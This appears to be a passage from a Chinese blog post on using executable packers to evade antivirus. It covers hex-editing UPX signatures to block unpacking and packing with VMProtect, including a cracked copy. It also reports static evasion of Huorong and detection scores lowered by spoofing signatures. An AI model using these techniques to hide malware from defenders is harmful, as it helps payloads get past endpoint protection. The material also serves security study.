

好看太多了

对于upx还有些混淆的方法，就比如使用hex编辑器替换掉所有upx相关字符



这样可以让`upx -d` 无法识别，从而无法脱壳，但太古典了，没有什么用

#### 其他壳

VMProtect

一个商业壳，不过有破解版，就算不用破解版似乎也能输出

破解版加壳效果



在存在火绒的设备中能做到静态免杀，只要一运行就会被杀

最新版（3.9）



这是我目前见过的最高分，如果在套上签名伪装，vir分数能到18，微步检出能到5，能静态过火绒

safengine

我没找到工具

* 参考文献

* [https://xz.aliyun.com/t/3864?u\_atoken=332b33ebd0fcda4125e890a9d0e7f075&amp;u\_asig=0a472f9217276764963008716e011c#toc-6](https://xz.aliyun.com/t/3864?u_atoken=332b33ebd0fcda4125e890a9d0e7f075&u_asig=0a472f9217276764963008716e011c#toc-6)

* <https://blog.csdn.net/qq_51521220/article/details/130361900>

* <https://bbs.kanxue.com/thread-275753.htm>
